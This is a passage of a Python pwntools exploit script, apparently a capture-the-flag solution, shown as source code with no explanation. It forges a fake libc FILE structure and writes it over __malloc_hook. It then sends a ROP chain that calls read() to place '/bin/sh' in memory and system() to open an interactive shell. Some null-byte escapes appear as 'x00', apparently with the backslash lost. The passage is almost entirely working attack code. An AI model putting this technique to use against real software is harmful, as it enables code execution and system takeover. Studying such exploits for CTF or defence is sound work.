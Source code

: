 ```
    p.recvuntil('ropchain:')
    p.send('b')
    for i in range(len(payload) - 1):
        p.recvuntil('stackoverflow:')
        p.recvuntil('ropchain:')
        p.send('x')
    file_struct_left = p64(malloc_hook_end)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p32(0)
    file_struct_left += p32(0x10)
    file_struct_left += p64(0xffffffffffffffff)
    file_struct_left += p64(0)
    file_struct_left += p64(libc_base + 0x3c3770)
    file_struct_left += p64(0xffffffffffffffff)
    file_struct_left += p64(0)
    file_struct_left += p64(libc_base + 0x3c19a0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(0)
    file_struct_left += p64(libc_base + 0x3be400)
    payload = file_struct_left
    payload = payload.ljust(0x1f0, 'x00')
    payload += p64(0x400a23) # rip
    p.recvuntil('stackoverflow:')
    # This will be written in __malloc_hook
    p.send(payload)
    # Rop from here
    binsh_addr = 0x0000000000602000 + 0x500
    pop_rdi_ret = 0x000000000001fd7a  + libc_base
    pop_rsi_ret = 0x000000000001fcbd + libc_base
    pop_rdx_ret = 0x0000000000001b92 + libc_base
    payload = p64(pop_rdi_ret)
    payload += p64(0) # fd
    payload += p64(pop_rsi_ret)
    payload += p64(binsh_addr) # buf
    payload += p64(pop_rdx_ret)
    payload += p64(0x100) # nbytes
    payload += p64(libc_base + libc.symbols['read']) # read(0, binsh_addr, 0x100)
    payload += p64(pop_rdi_ret)
    payload += p64(binsh_addr) # system_cmd = /bin/shx00
    payload += p64(libc_base + libc.symbols['system']) # system("/bin/shx00")
    p.send(payload)
    p.send('/bin/shx00')
    p.interactive()
if __name__ == "__main__":
    main()
```
